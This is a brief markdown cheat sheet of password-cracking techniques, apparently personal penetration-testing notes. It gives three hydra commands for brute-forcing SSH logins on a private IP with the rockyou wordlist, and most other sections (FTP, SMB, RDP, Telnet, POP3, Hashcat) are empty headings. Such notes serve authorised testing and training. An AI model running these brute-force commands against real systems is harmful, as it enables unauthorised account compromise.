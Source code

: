 # Cracking Techniques

Usually the tools that I always use are hashcat, wfuzz and hydra. 

- [SSH](#ssh)
- [FTP](#ftp)
- [SMB](#smb)
- [RDP](#rdp)
- [Telnet](#rdp)
- [Pop3](#pop3)
- [References](#references)

### SSH

```
# Normal
hydra  -l user -P /opt/rockyou.txt -f 10.10.8.83 ssh 

# Different Port 
hydra  -l user -P /opt/rockyou.txt -f 10.10.8.83 ssh -s 9999

# Many User
hydra  -L user.txt -P /opt/rockyou.txt -f 10.10.8.83 ssh -s 9999
```

### FTP

### SMB

### RDP

### Telnet

### Pop3

### Hashcat

# References

[1] https://linuxconfig.org/ssh-password-testing-with-hydra-on-kali-linux